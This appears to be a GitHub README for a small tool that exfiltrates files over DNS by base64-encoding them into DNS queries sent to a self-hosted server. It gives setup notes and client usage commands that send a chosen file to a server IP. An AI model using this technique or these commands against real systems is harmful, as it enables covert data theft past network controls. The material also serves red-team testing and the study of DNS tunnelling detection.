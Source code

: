 # DNSSUB
Exfiltrate files over dns requests using Python and/or Bash

A quick set of scripts I did after seeing DNSFTP (https://github.com/breenmachine/dnsftp) 
I used some of Breenmachine's code in the scripts, The chunks function is very handy.
I also used Simple DNS server (https://gist.github.com/andreif/6069838) as a base dns server for this script.
How it works:
Simply it takes a file converts to base64 then sends the base64 in dns requests to a server which rebuilds it on the other side.
NO encryption is used, only encoding (base64)

SETUP:
You need to change <domain><name> or <IPaddress> brackets in the scripts to your Domain and the IP you want to use.
Server Usage:
Run dnssub.py on your server which will bind to port 53 udp it will act like a dns server giving A records for the domain you enter in the script.
Client Usage: 
python client.py <file> <serverip>
./client.sh <file> <serverip>
